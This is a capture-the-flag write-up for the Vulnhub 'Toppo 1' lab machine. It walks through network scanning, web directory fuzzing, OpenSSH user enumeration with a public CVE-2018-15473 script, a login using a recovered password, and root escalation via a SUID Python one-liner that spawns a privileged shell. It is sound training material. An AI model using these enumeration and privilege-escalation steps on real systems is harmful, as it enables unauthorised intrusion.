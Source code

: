 # Information

- Name: Toppo 1
- Date release: 12 Jul 2018
- Author: Hadi Mene
- Series: Toppo
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/toppo-1,245/
- Difficulty: Very Easy

# Write Up

## Enumeration
### Host Discovery
Host Discovery is performed using [arpScan](https://github.com/aalmeidar/Tools). In this lab, machine ip is _10.0.2.28_.
```Shell
# arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:63:0d:d4 10.0.2.3
[*] 08:00:27:93:ef:2a 10.0.2.28
```
### Port Scanning 
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools) and _nmap_. Tool reported 4 open ports.
```Shell
# portScanner.py -i 10.0.2.28
[b] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 111 (sunrpc) open
[*] Port 56132 (unknown) open
```

Looks like a web server and ssh. Let's enumerate versions via nmap.
```Console
# nmap -sV -p22,80,111,56132 10.0.2.28
[sudo] password for aalmeidar: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 12:36 CEST
Nmap scan report for 10.0.2.28 (10.0.2.28)
Host is up (0.00031s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
56132/tcp open   status  1 (RPC #100024)
MAC Address: 08:00:27:93:EF:2A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.43 seconds
```
### Web
Index looks not relevant so let's apply fuzzing with _gobuster_ to discover hidden directories and files.
![Index](images/index.png)

```Console
# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.28/ -t 100 -x .txt,.php,.html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.28/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/09/09 12:39:37 Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 305] [--> http://10.0.2.28/mail/]
/admin                (Status: 301) [Size: 306] [--> http://10.0.2.28/admin/]
/post.html            (Status: 200) [Size: 8262]                             
/contact.html         (Status: 200) [Size: 7016]                             
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.28/css/]  
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.28/img/]  
/manual               (Status: 301) [Size: 307] [--> http://10.0.2.28/manual/]
/index.html           (Status: 200) [Size: 6437]                              
/about.html           (Status: 200) [Size: 5030]                              
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.28/js/]    
/vendor               (Status: 301) [Size: 307] [--> http://10.0.2.28/vendor/]
/LICENSE              (Status: 200) [Size: 1093]                              
/server-status        (Status: 403) [Size: 297]                               
                                                                              
===============================================================
2022/09/09 12:41:19 Finished
===============================================================
```
## Exploitation

In _/admin_ there is a message with a password, but no user.
![Message](images/message.png)

OpenSSH is vulnerable to [User Enumeration](https://www.exploit-db.com/exploits/45233). Let's try get a user. I'm going to use this [script](https://github.com/epi052/cve-2018-15473)

```Console
python open_ssh_user_enum.py 10.0.2.28 -w /usr/share/seclists/Usernames/Names/names.txt
[+] OpenSSH version 6.7 found
[+] bin found!
[+] irc found!
[+] mail found!
[+] man found!
[+] sys found!
[+] ted found!
[+] root found!

```

Login with ted:12345ted123 is successful.

## Privilege Escalation
_Python2.7_ is assigned with suid perm. Let's use it to generate a bash as root.
```Console
ted@Toppo:~$ find / -perm -4000 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
ted@Toppo:~$ python -c 'import os; os.system("/bin/bash -p")'
bash-4.3# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
bash-4.3# whoami
root
bash-4.3# cat /root/flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```
